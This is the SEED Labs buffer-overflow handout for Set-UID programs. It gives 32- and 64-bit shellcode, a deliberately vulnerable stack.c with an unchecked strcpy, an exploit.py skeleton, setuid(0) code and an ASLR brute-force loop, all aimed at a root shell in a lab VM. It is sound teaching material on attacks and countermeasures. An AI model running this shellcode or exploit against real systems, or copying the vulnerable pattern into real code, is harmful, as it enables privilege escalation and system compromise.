 ============================================
Buffer Overflow Attack Lab (Set-UID Version)
============================================

Overview
========

Buffer overflow is defined as the condition in which a program attempts
to write data beyond the boundary of a buffer. This vulnerability can be
used by a malicious user to alter the flow control of the program,
leading to the execution of malicious code. The objective of this lab is
for students to gain practical insights into this type of vulnerability,
and learn how to exploit the vulnerability in attacks.

In this lab, students will be given a program with a buffer-overflow
vulnerability; their task is to develop a scheme to exploit the
vulnerability and finally gain the root privilege. In addition to the
attacks, students will be guided to walk through several protection
schemes that have been implemented in the operating system to counter
against buffer-overflow attacks. Students need to evaluate whether the
schemes work or not and explain why. This lab covers the following
topics:

-  Buffer overflow vulnerability and attack

-  Stack layout

-  Address randomization, non-executable stack, and StackGuard

-  Shellcode (32-bit and 64-bit)

-  The return-to-libc attack, which aims at defeating the non-executable
   stack countermeasure, is covered in a separate lab.

**Readings and videos.** Detailed coverage of the buffer-overflow attack can be found in the
following:

-  Chapter 4 of the SEED Book, Computer & Internet Security: A Hands-on Approach, 2nd Edition, by
   Wenliang Du. See details at `<https://www.handsonsecurity.net>`_.

-  Section 4 of the SEED Lecture at Udemy, Computer Security: A Hands-on Approach, by Wenliang
   Du. See details at `<https://www.handsonsecurity.net/video.html>`_.

**Lab environment.** This lab has been tested on the SEED Ubuntu 20.04 VM. You can download a pre-built
image from the SEED website, and run the SEED VM on your own computer. However, most of the SEED
labs can be conducted on the cloud, and you can follow our instruction to create a SEED VM on the cloud.


**Note for instructors.** Instructors can customize this lab by choosing values for ``L1``, ...,
``L4``. See Section 4 for details.
Depending on the background of students and the time allocated for this
lab, instructors can also make the Level-2, Level-3, and Level-4 tasks
(or some of them) optional. The Level-1 task is sufficient to cover the
basics of the buffer-overflow attacks. Levels 2 to 4 increase the attack
difficulties. All the countermeasure tasks are based on the Level-1
task, so skipping the other levels does not affect those tasks.

Environment Setup
=================

Turning Off Countermeasures
---------------------------

Modern operating systems have implemented several security mechanisms to
make the buffer-overflow attack difficult. To simplify our attacks, we
need to disable them first. Later on, we will enable them and see
whether our attack can still be successful or not.

**Address Space Randomization.** and several other Linux-based systems uses address space randomization
to randomize the starting address of heap and stack. This makes guessing
the exact addresses difficult; guessing addresses is one of the critical
steps of buffer-overflow attacks. This feature can be disabled using the
following command:

::

   $ sudo sysctl -w kernel.randomize_va_space=0

**Configuring ``/bin/sh``.** In the recent versions of Ubuntu OS, the ``/bin/sh`` symbolic link
points to the ``/bin/dash`` shell. The ``dash`` program, as well as
``bash``, has implemented a security countermeasure that prevents itself
from being executed in a process. Basically, if they detect that they
are executed in a process, they will immediately change the effective
user ID to the process’s real user ID, essentially dropping the
privilege.

Since our victim program is a program, and our attack relies on running
``/bin/sh``, the countermeasure in ``/bin/dash`` makes our attack more
difficult. Therefore, we will link ``/bin/sh`` to another shell that
does not have such a countermeasure (in later tasks, we will show that
with a little bit more effort, the countermeasure in ``/bin/dash`` can
be easily defeated). We have installed a shell program called ``zsh`` in
our Ubuntu 20.04 VM. The following command can be used to link
``/bin/sh`` to ``zsh``:

::

   $ sudo ln -sf /bin/zsh /bin/sh

**StackGuard and Non-Executable Stack.** These are two additional countermeasures implemented in the system. They
can be turned off during the compilation. We will discuss them later
when we compile the vulnerable program.

Task 1: Getting Familiar with Shellcode
=======================================

The ultimate goal of buffer-overflow attacks is to inject malicious code
into the target program, so the code can be executed using the target
program’s privilege. Shellcode is widely used in most code-injection
attacks. Let us get familiar with it in this task.

The C Version of Shellcode
--------------------------

A shellcode is basically a piece of code that launches a shell. If we
use C code to implement it, it will look like the following:

.. code:: c

   #include <stdio.h>

   int main() {
      char *name[2];

      name[0] = "/bin/sh";
      name[1] = NULL;
      execve(name[0], name, NULL);
   }

Unfortunately, we cannot just compile this code and use the binary code
as our shellcode (detailed explanation is provided in the SEED book).
The best way to write a shellcode is to use assembly code. In this lab,
we only provide the binary version of a shellcode, without explaining
how it works (it is non-trivial). If you are interested in how exactly
shellcode works and you want to write a shellcode from scratch, you can
learn that from a separate SEED lab called *Shellcode Lab*.

32-bit Shellcode
----------------

::

   ; Store the command on stack
   xor  eax, eax
   push eax          
   push "//sh"
   push "/bin"
   mov  ebx, esp     ; ebx --> "/bin//sh": execve()'s 1st argument

   ; Construct the argument array argv[]
   push eax          ; argv[1] = 0
   push ebx          ; argv[0] --> "/bin//sh"
   mov  ecx, esp     ; ecx --> argv[]: execve()'s 2nd argument

   ; For environment variable 
   xor  edx, edx     ; edx = 0: execve()'s 3rd argument

   ; Invoke execve()
   xor  eax, eax     ; 
   mov  al,  0x0b    ; execve()'s system call number
   int  0x80

The shellcode above basically invokes the ``execve()`` system call to
execute ``/bin/sh``. In a separate SEED lab, the Shellcode lab, we guide
students to write shellcode from scratch. Here we only give a very brief
explanation.

-  The third instruction pushes ``"//sh"``, rather than ``"/sh"`` into
   the stack. This is because we need a 32-bit number here, and
   ``"/sh"`` has only 24 bits. Fortunately, ``"//"`` is equivalent to
   ``"/"``, so we can get away with a double slash symbol.

-  We need to pass three arguments to execve() via the ``ebx``, ``ecx``
   and ``edx`` registers, respectively. The majority of the shellcode
   basically constructs the content for these three arguments.

-  The system call ``execve()`` is called when we set ``al`` to
   ``0x0b``, and execute ``"int 0x80"``.

64-Bit Shellcode
----------------

We provide a sample 64-bit shellcode in the following. It is quite
similar to the 32-bit shellcode, except that the names of the registers
are different and the registers used by the ``execve()`` system call are
also different. Some explanation of the code is given in the comment
section, and we will not provide detailed explanation on the shellcode.

::

   xor  rdx, rdx        ; rdx = 0: execve()'s 3rd argument
   push rdx
   mov  rax, '/bin//sh' ; the command we want to run
   push rax             ; 
   mov  rdi, rsp        ; rdi --> "/bin//sh": execve()'s 1st argument 
   push rdx             ; argv[1] = 0
   push rdi             ; argv[0] --> "/bin//sh"
   mov  rsi, rsp        ; rsi --> argv[]: execve()'s 2nd argument
   xor  rax, rax
   mov  al,  0x3b       ; execve()'s system call number
   syscall              

Task: Invoking the Shellcode
----------------------------

We have generated the binary code from the assembly code above, and put
the code in a C program called ``call_shellcode.c`` inside the
``shellcode`` folder. If you would like to learn how to generate the
binary code yourself, you should work on the Shellcode lab. In this
task, we will test the shellcode. Listing 1: call_shellcode.c.

.. code:: c

   #include <stdlib.h>
   #include <stdio.h>
   #include <string.h>

   const char shellcode[] =
   #if __x86_64__
     "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
     "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
     "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
   #else
     "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
     "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
     "\xd2\x31\xc0\xb0\x0b\xcd\x80"
   #endif
   ;

   int main(int argc, char **argv)
   {
      char code[500];

      strcpy(code, shellcode); // Copy the shellcode to the stack
      int (*func)() = (int(*)())code;
      func();                 // Invoke the shellcode from the stack
      return 1;
   } 

The code above includes two copies of shellcode, one is 32-bit and the
other is 64-bit. When we compile the program using the ``-m32`` flag,
the 32-bit version will be used; without this flag, the 64-bit version
will be used. Using the provided ``Makefile``, you can compile the code
by typing ``make``. Two binaries will be created, ``a32.out`` (32-bit)
and ``a64.out`` (64-bit). Run them and describe your observations. It
should be noted that the compilation uses the ``execstack`` option,
which allows code to be executed from the stack; without this option,
the program will fail.

Task 2: Understanding the Vulnerable Program
============================================

The vulnerable program used in this lab is called ``stack.c``, which is
in the ``code`` folder. This program has a buffer-overflow
vulnerability, and your job is to exploit this vulnerability and gain
the root privilege. The code listed below has some non-essential
information removed, so it is slightly different from what you get from
the lab setup file. Listing 2: The vulnerable program (stack.c).

.. code:: c

   #include <stdlib.h>
   #include <stdio.h>
   #include <string.h>

   /* Changing this size will change the layout of the stack.
    * Instructors can change this value each year, so students
    * won't be able to use the solutions from the past. */
   #ifndef BUF_SIZE
   #define BUF_SIZE 100
   #endif

   int bof(char *str)
   {
       char buffer[BUF_SIZE];

       /* The following statement has a buffer overflow problem */ 
       strcpy(buffer, str);          

       return 1;
   }

   int main(int argc, char **argv)
   {
       char str[517];
       FILE *badfile;

       badfile = fopen("badfile", "r");
       fread(str, sizeof(char), 517, badfile);
       bof(str);
       printf("Returned Properly\n");
       return 1;
   }

The above program has a buffer overflow vulnerability. It first reads an
input from a file called ``badfile``, and then passes this input to
another buffer in the function bof(). The original input can have a
maximum length of ``517`` bytes, but the buffer in bof() is only
``BUF_SIZE`` bytes long, which is less than ``517``. Because strcpy()
does not check boundaries, buffer overflow will occur. Since this
program is a root-owned program, if a normal user can exploit this
buffer overflow vulnerability, the user might be able to get a root
shell. It should be noted that the program gets its input from a file
called ``badfile``. This file is under users’ control. Now, our
objective is to create the contents for ``badfile``, such that when the
vulnerable program copies the contents into its buffer, a root shell can
be spawned.

**Compilation.** To compile the above vulnerable program, do not forget to turn off the
StackGuard and the non-executable stack protections using the
``-fno-stack-protector`` and ``"-z execstack"`` options. After the
compilation, we need to make the program a root-owned program. We can
achieve this by first change the ownership of the program to ``root``
(Line ), and then change the permission to ``4755`` to enable the bit
(Line ). It should be noted that changing ownership must be done before
turning on the bit, because ownership change will cause the bit to be
turned off.

::

   $ gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c
   $ sudo chown root stack          ➀
   $ sudo chmod 4755 stack          ➁

The compilation and setup commands are already included in ``Makefile``,
so we just need to type ``make`` to execute those commands. The
variables ``L1``, ..., ``L4`` are set in ``Makefile``; they will be used
during the compilation. If the instructor has chosen a different set of
values for these variables, you need to change them in ``Makefile``.

**For instructors (customization).** To make the lab slightly different from the one offered in the past,
instructors can change the value for ``BUF_SIZE`` by requiring students
to compile the server code using different ``BUF_SIZE`` values. In
``Makefile``, the ``BUF_SIZE`` value is set by four variables ``L1``,
..., ``L4``. Instructors should pick the values for these variables
based on the following suggestions:

-  ``L1``: pick a number between 100 and 400

-  ``L2``: pick a number between 100 and 200

-  ``L3``: pick a number between 100 and 400

-  ``L4``: we need to keep this number smaller, to make this level more
   challenging than the previous level. Since there are not many
   choices, we will fix this number at 10.

Task 3: Launching Attack on 32-bit Program (Level 1)
====================================================

Investigation
-------------

To exploit the buffer-overflow vulnerability in the target program, the
most important thing to know is the distance between the buffer’s
starting position and the place where the return-address is stored. We
will use a debugging method to find it out. Since we have the source
code of the target program, we can compile it with the debugging flag
turned on. That will make it more convenient to debug.

We will add the ``-g`` flag to ``gcc`` command, so debugging information
is added to the binary. If you run ``make``, the debugging version is
already created. We will use ``gdb`` to debug ``stack-L1-dbg``. We need
to create a file called ``badfile`` before running the program.

::

   $ touch badfile       <-- Create an empty badfile
   $ gdb stack-L1-dbg
   gdb-peda$ b bof       <-- Set a break point at function bof()
   Breakpoint 1 at 0x124d: file stack.c, line 18.
   gdb-peda$ run         <-- Start executing the program
   ...
   Breakpoint 1, bof (str=0xffffcf57 ...) at stack.c:18
   18  {
   gdb-peda$ next        <-- See the note below
   ...
   22      strcpy(buffer, str);
   gdb-peda$ p $ebp      <-- Get the ebp value
   $1 = (void *) 0xffffdfd8   
   gdb-peda$ p &buffer   <-- Get the buffer's address
   $2 = (char (*)[100]) 0xffffdfac
   gdb-peda$ quit        <-- exit

**Note 1.** When ``gdb`` stops inside the ``bof()`` function, it stops before the
``ebp`` register is set to point to the current stack frame, so if we
print out the value of ``ebp`` here, we will get the caller’s ``ebp``
value. We need to use ``next`` to execute a few instructions and stop
after the ``ebp`` register is modified to point to the stack frame of
the ``bof()`` function. The SEED book is based on Ubuntu 16.04, and
``gdb``\ ’s behavior is slightly different, so the book does not have
the ``next`` step.

**Note 2.** It should be noted that the frame pointer value obtained from ``gdb`` is
different from that during the actual execution (without using ``gdb``).
This is because ``gdb`` has pushed some environment data into the stack
before running the debugged program. When the program runs directly
without using ``gdb``, the stack does not have those data, so the actual
frame pointer value will be larger. You should keep this in mind when
constructing your payload.

Launching Attacks
-----------------

To exploit the buffer-overflow vulnerability in the target program, we
need to prepare a payload, and save it inside ``badfile``. We will use a
Python program to do that. We provide a skeleton program called
``exploit.py``, which is included in the lab setup file. The code is
incomplete, and students need to replace some of the essential values in
the code. Listing 3: ``exploit.py``.

::

   #!/usr/bin/python3
   import sys

   shellcode= (
     ""                    # ✩ Need to change
   ).encode('latin-1')

   # Fill the content with NOP's
   content = bytearray(0x90 for i in range(517))

   ##################################################################
   # Put the shellcode somewhere in the payload
   start = 0               # ✩ Need to change
   content[start:start + len(shellcode)] = shellcode

   # Decide the return address value
   # and put it somewhere in the payload
   ret    = 0x00           # ✩ Need to change
   offset = 0              # ✩ Need to change

   L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
   content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
   ##################################################################

   # Write the content to a file
   with open('badfile', 'wb') as f:
     f.write(content)

After you finish the above program, run it. This will generate the
contents for ``badfile``. Then run the vulnerable program stack. If your
exploit is implemented correctly, you should be able to get a root
shell:

::

   $./exploit.py     // create the badfile
   $./stack-L1       // launch the attack by running the vulnerable program
   # <---- Bingo! You've got a root shell! 

In your lab report, in addition to providing screenshots to demonstrate
your investigation and attack, you also need to explain how the values
used in your ``exploit.py`` are decided. These values are the most
important part of the attack, so a detailed explanation can help the
instructor grade your report. Only demonstrating a successful attack
without explaining why the attack works will not receive many points.

Task 4: Launching Attack without Knowing Buffer Size (Level 2)
==============================================================

In the Level-1 attack, using ``gdb``, we get to know the size of the
buffer. In the real world, this piece of information may be hard to get.
For example, if the target is a server program running on a remote
machine, we will not be able to get a copy of the binary or source code.
In this task, we are going to add a constraint: you can still use
``gdb``, but you are not allowed to derive the buffer size from your
investigation. Actually, the buffer size is provided in ``Makefile``,
but you are not allowed to use that information in your attack.

Your task is to get the vulnerable program to run your shellcode under
this constraint. We assume that you do know the range of the buffer
size, which is from 100 to 200 bytes. Another fact that may be useful to
you is that, due to the memory alignment, the value stored in the frame
pointer is always multiple of four (for 32-bit programs).

Please be noted, you are only allowed to construct one payload that
works for any buffer size within this range. You will not get all the
credits if you use the brute-force method, i.e., trying one buffer size
each time. The more you try, the easier it will be detected and defeated
by the victim. That’s why minimizing the number of trials is important
for attacks. In your lab report, you need to describe your method, and
provide evidences.

Task 5: Launching Attack on 64-bit Program (Level 3)
====================================================

In this task, we will compile the vulnerable program into a 64-bit
binary called ``stack-L3``. We will launch attacks on this program. The
compilation and setup commands are already included in ``Makefile``.
Similar to the previous task, detailed explanation of your attack needs
to be provided in the lab report.

Using ``gdb`` to conduct an investigation on 64-bit programs is the same
as that on 32-bit programs. The only difference is the name of the
register for the frame pointer. In the x86 architecture, the frame
pointer is ``ebp``, while in the x64 architecture, it is ``rbp``.

**Challenges.** Compared to buffer-overflow attacks on 32-bit machines, attacks on
64-bit machines is more difficult. The most difficult part is the
address. Although the x64 architecture supports 64-bit address space,
only the address from ``0x00`` through ``0x00007FFFFFFFFFFF`` is
allowed. That means for every address (8 bytes), the highest two bytes
are always zeros. This causes a problem.

In our buffer-overflow attacks, we need to store at least one address in
the payload, and the payload will be copied into the stack via
``strcpy()``. We know that the ``strcpy()`` function will stop copying
when it sees a zero. Therefore, if zero appears in the middle of the
payload, the content after the zero cannot be copied into the stack. How
to solve this problem is the most difficult challenge in this attack.

Task 6: Launching Attack on 64-bit Program (Level 4)
====================================================

The target program (``stack-L4``) in this task is similar to the one in
the Level 2, except that the buffer size is extremely small. We set the
buffer size to 10, while in Level 2, the buffer size is much larger.
Your goal is the same: get the root shell by attacking this program. You
may encounter additional challenges in this attack due to the small
buffer size. If that is the case, you need to explain how your have
solved those challenges in your attack.

Tasks 7: Defeating ``dash``\ ’s Countermeasure
==============================================

The ``dash`` shell in the Ubuntu OS drops privileges when it detects
that the effective UID does not equal to the real UID (which is the case
in a program). This is achieved by changing the effective UID back to
the real UID, essentially, dropping the privilege. In the previous
tasks, we let ``/bin/sh`` points to another shell called ``zsh``, which
does not have such a countermeasure. In this task, we will change it
back, and see how we can defeat the countermeasure. Please do the
following, so ``/bin/sh`` points back to ``/bin/dash``.

::

   $ sudo ln -sf /bin/dash /bin/sh

To defeat the countermeasure in buffer-overflow attacks, all we need to
do is to change the real UID, so it equals the effective UID. When a
root-owned program runs, the effective UID is zero, so before we invoke
the shell program, we just need to change the real UID to zero. We can
achieve this by invoking ``setuid(0)`` before executing ``execve()`` in
the shellcode.

The following assembly code shows how to invoke ``setuid(0)``. The
binary code is already put inside ``call_shellcode.c``. You just need to
add it to the beginning of the shellcode.

::

   ; Invoke setuid(0): 32-bit
   xor ebx, ebx      ; ebx = 0: setuid()'s argument
   xor eax, eax
   mov  al, 0xd5     ; setuid()'s system call number
   int 0x80

   ; Invoke setuid(0): 64-bit
   xor rdi, rdi      ; rdi = 0: setuid()'s argument
   xor rax, rax       
   mov  al, 0x69     ; setuid()'s system call number
   syscall

**Experiment.** Compile ``call_shellcode.c`` into root-owned binary (by typing
``"make setuid"``). Run the shellcode ``a32.out`` and ``a64.out`` with
or without the ``setuid(0)`` system call. Please describe and explain
your observations.

**Launching the attack again.** Now, using the updated shellcode, we can attempt the attack again on the
vulnerable program, and this time, with the shell’s countermeasure
turned on. Repeat your attack on Level 1, and see whether you can get
the root shell. After getting the root shell, please run the following
command to prove that the countermeasure is turned on. Although
repeating the attacks on Levels 2 and 3 are not required, feel free to
do that and see whether they work or not.

::

   # ls -l /bin/sh /bin/zsh /bin/dash

Task 8: Defeating Address Randomization
=======================================

On 32-bit Linux machines, stacks only have 19 bits of entropy, which
means the stack base address can have :math:`2^{19} = 524,288`
possibilities. This number is not that high and can be exhausted easily
with the brute-force approach. In this task, we use such an approach to
defeat the address randomization countermeasure on our 32-bit VM. First,
we turn on the Ubuntu’s address randomization using the following
command. Then we run the same attack against ``stack-L1``. Please
describe and explain your observation.

::

   $ sudo /sbin/sysctl -w kernel.randomize_va_space=2

We then use the brute-force approach to attack the vulnerable program
repeatedly, hoping that the address we put in the ``badfile`` can
eventually be correct. We will only try this on ``stack-L1``, which is a
32-bit program. You can use the following shell script to run the
vulnerable program in an infinite loop. If your attack succeeds, the
script will stop; otherwise, it will keep running. Please be patient, as
this may take a few minutes, but if you are very unlucky, it may take
longer. Please describe your observation.

.. code:: bash

   #!/bin/bash

   SECONDS=0
   value=0

   while true; do
     value=$(( $value + 1 ))
     duration=$SECONDS
     min=$(($duration / 60))
     sec=$(($duration % 60))
     echo "$min minutes and $sec seconds elapsed."
     echo "The program has been running $value times so far."
     ./stack-L1
   done

Brute-force attacks on 64-bit programs is much harder, because the
entropy is much larger. Although this is not required, free free to try
it just for fun. Let it run overnight. Who knows, you may be very lucky.

Tasks 9: Experimenting with Other Countermeasures
=================================================

Task 9.a: Turn on the StackGuard Protection
-------------------------------------------

Many compiler, such as ``gcc``, implements a security mechanism called
*StackGuard* to prevent buffer overflows. In the presence of this
protection, buffer overflow attacks will not work. In our previous
tasks, we disabled the StackGuard protection mechanism when compiling
the programs. In this task, we will turn it on and see what will happen.

First, repeat the Level-1 attack with the StackGuard off, and make sure
that the attack is still successful. Remember to turn off the address
randomization, because you have turned it on in the previous task. Then,
we turn on the StackGuard protection by recompiling the vulnerable
``stack.c`` program without the ``-fno-stack-protector`` flag. In
``gcc`` version 4.3.3 and above, StackGuard is enabled by default.
Launch the attack; report and explain your observations.

Task 9.b: Turn on the Non-executable Stack Protection
-----------------------------------------------------

Operating systems used to allow executable stacks, but this has now changed: In Ubuntu OS, the binary
images of programs (and shared libraries) must declare whether they require executable stacks or not, i.e.,
they need to mark a field in the program header. Kernel or dynamic linker uses this marking to decide
whether to make the stack of this running program executable or non-executable. This marking is done
automatically by the ``gcc``, which by default makes stack non-executable. We can specifically make it nonexecutable using the "-z noexecstack" flag in the compilation. In our previous tasks, we used "-z
execstack" to make stacks executable.

In this task, we will make the stack non-executable. We will do this experiment in the ``shellcode``
folder. The ``call_shellcode`` program puts a copy of shellcode on the stack, and then executes the code
from the stack. Please recompile ``call_shellcode.c`` into ``a32.out`` and ``a64.out``, without the "-z
execstack" option. Run them, describe and explain your observations

**Defeating the non-executable stack countermeasure.** It should be noted that non-executable stack only
makes it impossible to run shellcode on the stack, but it does not prevent buffer-overflow attacks, because
there are other ways to run malicious code after exploiting a buffer-overflow vulnerability. The return-tolibc attack is an example. We have designed a separate lab for that attack. If you are interested, please see
our Return-to-Libc Attack Lab for details.

Submission
==========
You need to submit a detailed lab report, with screenshots, to describe what you have done and what you
have observed. You also need to provide explanation to the observations that are interesting or surprising.
Please also list the important code snippets followed by explanation. Simply attaching code without any
explanation will not receive credits.